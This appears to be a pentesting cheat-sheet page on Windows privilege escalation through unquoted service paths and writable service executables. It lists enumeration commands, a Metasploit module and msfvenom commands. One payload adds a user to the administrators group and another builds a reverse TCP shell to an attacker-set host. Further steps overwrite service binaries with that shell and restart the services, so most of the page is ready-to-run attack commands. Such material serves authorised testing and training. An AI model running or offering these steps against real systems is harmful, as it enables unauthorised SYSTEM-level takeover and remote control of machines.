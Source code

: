 ## Unquoted Service Path
Attack then levages the algorithm that search for mapped relevant services additional alternate interpretable locations and between non-explicitly declared file paths with whitespace. Requires: 
1. Write permissions to a `service`'s main directory tree, but cannot replace files within the tree. 
2. The path to the service must contain `whitespace` character like third party software directory `\Program Files\Insert Your Software\Service Location\here.exe`; 

Developers must ensure the that paths containing spaces are enclosed in quotation marks otherwise the path is interpretered by the search algorithm. Enumerate either with:
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i “auto” |findstr /i /v “c:\windows\\” |findstr /i /v “””
```
[[Meterpreter-Commands]]
```msfconsole
use exploit/windows/local/trusted_service_path
```
[[PowerSploit-PowerUp-Helpsheet]]]
```powershell
sc qc <unquotedsvc> # Query a service that has BINARY_PATH_NAME that is UNQUOTED AND CONTAINS SPACES
icacls <.exe>
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" # sysinternals
```

```bash
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=4444 -f exe-service -o svc-exe.exe
```

```batch
# File transfer
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net start unquotedsvc
# or
sc stop unquotedsvc
sc start unquotedsvc
```
[Pentestlab](https://pentestlab.blog/2017/03/09/unquoted-service-path/)

## Insecure service executables

If service's executable DACL is well configured and service binary path is correctly quoted - should DACL allow modification of the configuration of a service then reconfigure it!

```batch
sc qc filepermsvc # Find a service that runs with SYSTEM privileges
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe" # sysinternals - check writability
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y # replace the filepermservice.exe
# (Re)start service
net start filepermsvc 
# or 
sc stop filepermsvc
sc start filepermsvc
```
